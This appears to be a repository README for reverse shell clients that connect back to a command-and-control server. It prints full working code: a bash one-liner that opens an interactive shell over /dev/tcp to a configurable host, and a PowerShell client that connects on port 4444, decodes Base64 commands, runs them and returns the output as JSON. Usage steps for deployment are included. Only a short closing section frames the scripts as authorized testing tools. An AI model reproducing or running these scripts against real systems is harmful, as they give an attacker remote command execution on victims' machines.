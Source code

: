 # Client Reverse Shell Scripts

This directory contains the client-side reverse shell scripts that work in conjunction with the C2 server (located in the `server` directory). There are two scripts provided:

- **client.sh** – for Linux/Unix systems  
- **client.ps1** – for Windows systems

Both scripts are designed to establish a reverse shell connection to the C2 server and receive payload commands. They also set an environment variable (`TASK`) that is used by the server to decide which payload to deliver.

---

## Repository Structure

```
.
├── client
│   ├── client.sh       # Linux reverse shell client script
│   └── client.ps1      # Windows reverse shell client script
└── server
    └── server.py       # Command and Control server and its components
```

---

## Overview

### How It Works

- **Connection Establishment:**  
  Each client script creates a TCP connection to the server.  
  - On Linux, the reverse shell is initiated via a bash interactive shell.
  - On Windows, a PowerShell process handles the connection and payload execution.

- **Payload Execution:**  
  Once connected, the client waits for a Base64-encoded payload (command) from the server, decodes it, and executes it.  
  The output (stdout, stderr, and exit code) is then encoded and sent back to the server as a JSON response.

- **TASK Environment Variable:**  
  The `TASK` variable (defaulted to `"example"`) is set by the client scripts. The server uses this value to determine which payload script (e.g., bash or PowerShell) should be executed on the client side.

---

## Client Scripts

### client.sh (Linux)

```bash
#!/bin/bash
echo "Triggering reverse shell to $SERVER_IP:$SERVER_PORT ..."
TASK="example" /bin/bash -i >& /dev/tcp/$SERVER_IP/$SERVER_PORT 0>&1
```

- **Usage:**  
  - Ensure that the environment variables `SERVER_IP` and `SERVER_PORT` are set to point to your C2 server.
  - This script initiates a reverse shell by connecting to the provided server address and port.
  - It exports the `TASK` variable, which informs the server of the payload to deliver.

### client.ps1 (Windows)

```powershell
# Define server and port
$server = "xxx.xxx.xxx.xxx" # Replace with your server's IP address or hostname
$port = 4444
$TASK="example"

# Create a TCP connection
$client = New-Object System.Net.Sockets.TCPClient($server, $port)
$stream = $client.GetStream()
$encoding = [System.Text.Encoding]::UTF8
$reader = New-Object System.IO.StreamReader($stream, $encoding)
$writer = New-Object System.IO.StreamWriter($stream, $encoding)
$writer.AutoFlush = $true

while (($payloadEncoded = $reader.ReadLine()) -ne $null) {
    # Decode the Base64-encoded payload to retrieve the command
    Write-Host "Received payload: $payloadEncoded"
    try {
        $payloadBytes = [System.Convert]::FromBase64String($payloadEncoded)
        $command = $encoding.GetString($payloadBytes)
    }
    catch {
        Write-Host "Failed to decode payload: $_"
        Write-Host "Received raw payload: " + $payloadEncoded.Trim()
        $command = $payloadEncoded.Trim()
    }
    Write-Host "Decoded command: $($command.Trim())"

    $process = New-Object System.Diagnostics.Process
    $process.StartInfo.FileName = "powershell.exe"
    $bytes = [System.Text.Encoding]::Unicode.GetBytes('$ProgressPreference = "SilentlyContinue"; $TASK="' + $TASK + '";' + $command)
    $encodedCommand = [System.Convert]::ToBase64String($bytes)
    $process.StartInfo.Arguments = "-NoProfile -EncodedCommand $encodedCommand"
    $process.StartInfo.UseShellExecute = $false
    $process.StartInfo.RedirectStandardOutput = $true
    $process.StartInfo.RedirectStandardError = $true

    # Set an environment variable for the process
    $process.StartInfo.EnvironmentVariables["TASK"] = $TASK

    $process.Start() | Out-Null

    # Capture the outputs.
    $output = $process.StandardOutput.ReadToEnd().Trim()
    $errorOutput = $process.StandardError.ReadToEnd().Trim()
    $exitCode = $process.ExitCode

    $process.WaitForExit()

    # Now $output and $errorOutput contain the stdout and stderr, respectively.
    Write-Output "Output: $output"
    Write-Output "Error output: $errorOutput"
    Write-Output "Exit code: $exitCode"

    $stdoutBytes     = [System.Text.Encoding]::UTF8.GetBytes($output)
    $stderrBytes     = [System.Text.Encoding]::UTF8.GetBytes($errorOutput)

    # Build a JSON response (you could add more details if needed)
    $response = @{
        session_id = $(if ($env:SESSION_ID) { $env:SESSION_ID } else { "" })
        task       = $TASK
        stdout     = [System.Convert]::ToBase64String($stdoutBytes)
        stderr     = [System.Convert]::ToBase64String($stderrBytes)
        returncode = $exitCode
    }
    $json = $response | ConvertTo-Json -Compress

    # Send the JSON response followed by a newline
    $writer.WriteLine($json)
}

$client.Close()
```

- **Usage:**  
  - Edit the `$server` variable to set your C2 server’s IP address or hostname.
  - The script uses port `4444` by default; update `$port` if needed.
  - It establishes a TCP connection and continuously listens for Base64-encoded commands.
  - Each payload is decoded and executed using PowerShell, with outputs sent back to the server in JSON format.

---

## Setup and Execution

### Prerequisites

- **For Linux Client:**
  - A Unix-like environment (Linux, macOS, etc.)
  - Bash shell
  - Access to the target C2 server over the network

- **For Windows Client:**
  - Windows PowerShell (v5.1 or later)
  - Access to the target C2 server over the network

### Running the Client

1. **Configure Server Details:**

   - **Linux:**  
     Set the environment variables `SERVER_IP` and `SERVER_PORT` before running the script. For example:
     ```bash
     export SERVER_IP="192.168.1.100"
     export SERVER_PORT="4444"
     ./client.sh
     ```

   - **Windows:**  
     Open the `client.ps1` file in a text editor and update the `$server` and `$port` variables with your C2 server's details. Then, run the script from PowerShell:
     ```powershell
     .\client.ps1
     ```

2. **Execution:**  
   Once executed, the client will connect to the server and wait for payloads. The server will deliver Base64-encoded commands which the client decodes, executes, and then returns a JSON response containing the execution results.

---

## Customization

- **TASK Variable:**  
  The `TASK` environment variable determines which payload the server will send. You can change the default value (`"example"`) to match your requirements.

- **Logging and Output:**  
  Both scripts print status messages to help track the connection and command execution process. Adjust the verbosity as needed.

- **Payload Handling:**  
  The client scripts are designed to work with the payload delivery mechanism of the C2 server. Ensure that any payloads provided by the server are compatible with your client environment (bash for Linux and PowerShell for Windows).

---

## Security Considerations

- **Use in Controlled Environments:**  
  These scripts are intended for authorized testing or research purposes only. Running a reverse shell can expose your system to significant risk if misused.

- **Network Security:**  
  Ensure that the network and systems are secure and that only trusted entities can connect to your server.